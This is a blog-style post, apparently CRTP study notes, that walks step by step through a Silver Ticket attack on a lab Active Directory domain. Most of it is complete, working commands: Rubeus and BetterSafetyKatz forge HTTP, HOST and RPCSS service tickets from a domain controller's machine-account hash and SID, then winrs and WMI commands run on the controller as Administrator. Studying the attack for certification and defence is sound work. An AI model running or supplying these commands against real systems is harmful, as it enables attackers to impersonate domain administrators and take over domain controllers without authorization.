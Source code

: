 ```yaml
---
title: Active Directory (AD) | Exploiting Domain Admin (Silver Ticket Attack)
date: 2024-07-03 00:00:00 +0800
categories: [Cert, CRTP]
tags: [Cert,Active Directory]     ## TAG names should always be lowercase
render_with_liquid: false
description: Designed to provide a comprehensive guide to Active Directory (AD) attack techniques
---
```


## **Introduction**
A Silver Ticket attack allows attackers to gain unauthorized access to specific services in an Active Directory environment by forging service tickets (TGS). Unlike the Golden Ticket attack, which compromises the entire domain, a Silver Ticket attack uses the hash of a service account instead of the KDC (krbtgt) hash, making it stealthier and harder to detect.

## **Importance of Silver Tickets**
Silver Tickets enable attackers to access particular services like HTTP and WMI without alerting the domain controller. This can bypass security measures, making it a crucial attack method to understand and defend against in maintaining Active Directory security.

## **Understanding HTTP and WMI in This Context**
- **HTTP (Hypertext Transfer Protocol):** In the context of a Silver Ticket attack, the HTTP service on a domain controller may be targeted to execute commands or retrieve information via web interfaces or applications running on the server. By forging a ticket for the HTTP service, an attacker can gain access to web-based management consoles or services hosted on the domain controller.

- **WMI (Windows Management Instrumentation):** WMI is a set of specifications from Microsoft for consolidating the management of devices and applications in a network from Windows computing systems. By targeting WMI, an attacker can execute commands remotely, gather information about the system, and manage various aspects of the operating system.

## **Step 1: Creating a Silver Ticket for HTTP Service**
The first step involves creating a Silver Ticket for the HTTP service on the domain controller. This requires the hash of the machine account for the domain controller (dcorp-dc$).

### Generate the Silver Ticket:
Using Rubeus, we generate a Silver Ticket with the following command. This command specifies the service (HTTP), domain, target machine, RC4 hash, SID, and user details.

```bash
C:\AD\Tools>Loader.exe -path C:\AD\Tools\Rubeus.exe -args "silver /service:http/dcorp-dc.dollarcorp.moneycorp.local /rc4:c6a60b67476b36ad7838d7875c33c2c3 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt"
```

### Verify the Service Ticket:
Verify the generated ticket with Rubeus. Successful verification will show details such as the server name and client name.

```bash
C:\AD\Tools>Loader.exe -path C:\AD\Tools\Rubeus.exe -args "ptt"
```

### Access the Domain Controller Using winrs:
Use Windows Remote Shell (winrs) to access the domain controller:

```bash
C:\AD\Tools>winrs -r:dcorp-dc.dollarcorp.moneycorp.local cmd
```

## **Step 2: Creating a Silver Ticket for WMI Access**
For WMI access, we need Silver Tickets for both the HOST and RPCSS services.


### Generate a Ticket for HOST Service:
Use BetterSafetyKatz to create a Silver Ticket for the HOST service:

```bash
C:\AD\Tools>BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:c6a60b67476b36ad7838d7875c33c2c3 /startoffset:0 /endin:600 /renewmax:10080 /ptt"
```

### Generate a Ticket for RPCSS Service:
Similarly, create a Silver Ticket for the RPCSS service:

```bash
C:\AD\Tools>BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:RPCSS /rc4:c6a60b67476b36ad7838d7875c33c2c3 /startoffset:0 /endin:600 /renewmax:10080 /ptt"
```

### Verify the Tickets:
Check if the tickets are present using klist. You should see entries for both RPCSS and HOST services.

```bash
C:\Windows\system32>klist
```

### Execute WMI Commands:
With the tickets in place, run WMI commands on the domain controller. The output will include details about the operating system, confirming our access.

```bash
PS C:\AD\Tools> Get-WmiObject -Class win32_operatingsystem -ComputerName dcorp-dc
```